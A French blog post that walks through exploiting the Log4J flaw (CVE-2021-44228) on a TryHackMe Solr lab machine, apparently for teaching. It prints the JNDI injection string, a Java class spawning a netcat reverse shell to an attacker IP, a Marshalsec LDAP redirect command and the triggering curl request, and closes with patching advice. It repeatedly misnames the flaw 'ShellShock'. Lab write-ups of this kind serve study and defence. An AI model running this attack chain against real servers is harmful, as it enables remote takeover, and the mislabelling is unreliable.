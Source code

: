 ```yaml
---

layout: post

title: "Analyse de la faille Log4J"

date: 2021-12-13

categories: divers

---
```


# Diclaimer

Cet article vise à expliquer la faille de sécurite ShellShock, en aucun cas les explications données doivent être utilisées dans le but de causer des dommages à un quelconque système. Toutes les informations sont données à but de pédagogie ou de défense.

# Analyse de la faille Log4J (CVE-2021-44228)

Pas besoin d'être un professionnel du monde cyber pour avoir entendu parler de cette faille qui a crée quelques sueurs froides ces derniers jours.

Connue sous le nom de CVE-2021-44228, ou plus communément "ShellShock" de par son impact étendu, cette faille notée 10 (sur 10 !) par le scoring CVSS permet un _Remote Code Execution_ en exploitant le système de log basé sur Java : Log4J.

Je vous propose une brève analyse de cette faille. Avec tout d'abord un remerciement à John Hammond pour la création de la machine vulnérable sur TryHackMe.

Voici un bref récapitulatif de l'attaque : 

![draw (1)](https://user-images.githubusercontent.com/16634117/145877226-310dc164-e164-4cbb-9065-1027ad80f0d2.jpg)


# Reconnaissance de la faille

Cette faille se retrouve sur bon nombre d'applications, puisque Log4J est très répandue pour la gestion de logs. Pour cette attaque, je me base sur l'application Solr, qui utilise une version vulnérable de Log4J.

![2](https://user-images.githubusercontent.com/16634117/145869688-87433bd9-c133-41de-bd0d-43588d5e01a1.PNG)

Un petit tour sur l'application et on remarque rapidement que l'application Log4J est présente dans les arguments de l'application. 

Il faut maintenant savoir si cette version est vulnérable, pour ça, il faut trouver un point d'injection. Le plus simple est de jeter un œil aux logs de l'application :

![example_logs](https://user-images.githubusercontent.com/16634117/145869966-14f8f7bf-995c-470a-a6e8-dc4a334a5edb.png)

Ici, on voit clairement que les requêtes GET sont journalisées ; l'url, mais également **les paramètres**. (C'est sur ce point que l'exploit peut changer, suivant la journalisation en place, il existera des points d'injections différents : paramètres, headers HTTP, etc.)

Pour identifier la vulnérabilité du système, j'injecte un paramètre GET avec la charge utile suivante (expliquée dans la présentation de la faille) :

`${jndi:ldap://<IP>:<PORT>}`

![5](https://user-images.githubusercontent.com/16634117/145870531-750a9523-9d1c-4b0d-b523-af4b2d1e669e.png)
_L'injection, avec un listener pour récupérer la connexion, permettant de vérifier la bonne exécution de la charge utile_

Une connexion s'effectue bien entre notre machine et le serveur, **ce dernier est donc vulnérable**.

# Exploitation

Nous avons vu dans la partie précédente que l'application est vulnérable, mais, pour le moment, aucune execution de code sur le serveur n'est réalisée. 

C'est ici que la seconde partie de la faille se trouve, l'utilisation de [JNDI](https://en.wikipedia.org/wiki/Java_Naming_and_Directory_Interface) va permettre de faire des appels à un serveur LDAP, serveur qui peut être malicieux (possédé par l'attaquant) et donc utilisé pour rediriger vers du code malveillant en notre possession.

## Charge utile

Afin de créer un accès au serveur, on cherche simplement à créer une connexion shell, pour ça la classe Java suivante est suffisante : 

```Java
public class Exploit {
    static {
        try {
            java.lang.Runtime.getRuntime().exec("nc -e /bin/bash 10.10.65.176 9999");
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```

On la compile sous le nom de `Exploit.class`

## Mise en place d'un serveur LDAP malveillant

On utilise le software [Marshalsec](https://github.com/mbechler/marshalsec) qui permet de créer un serveur LDAP et de rediriger le trafic.

La commande suivante va créer le serveur et rediriger vers notre code malveillant :

`java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://10.10.65.176:8000/#Exploit"`

![image](https://user-images.githubusercontent.com/16634117/145871850-2f83e1d5-6e94-40ec-803b-c71be8fca4d6.png)

## Attaque

Une fois les éléments en place, il faut un serveur capable de répondre avec notre charge malveillante, un simple `python3 -m http.server` à la racine de notre payload fera l'affaire.

Pour récupérer le shell il faut ouvrir une connexion au niveau de la machine d'attaque :

`nc -lnvp 9999`

Tous les éléments sont en place. 

Une requête avec l'injection va déclencher toute la chaîne d'attaque : 

`curl 'http://10.10.31.65:8983/solr/admin/cores?foo=$\{jndi:ldap://10.10.65.176:1389/Exploit\}'`

Une fois cela fait :

![image](https://user-images.githubusercontent.com/16634117/145872643-ec39c7ca-e33d-4b34-8c31-a6b2ed397b09.png)
_De haut en bas et de gauche à droite : la requête malveillante, le serveur LDAP redirigeant le traffic, le serveur Python répondant avec le code compilé, le reverse shell_

On obtient bien un accès en shell au serveur, par la suite il est possible de continuer une chaîne classique d'attaque pour gagner en privilèges et corrompre une plus grande partie du système.

# Conclusion et réponse

Cette faille touche un grand nombre de système, et il y a de fortes chances que vos systèmes en fassent partie, pour vous les solutions sont les suivantes : 

* Mettre à jour Log4J,
* Désactiver le lookup JDNI.

Une liste non exhaustive des applications touchées est disponible ici : https://github.com/NCSC-NL/log4shell/blob/main/software/README.md



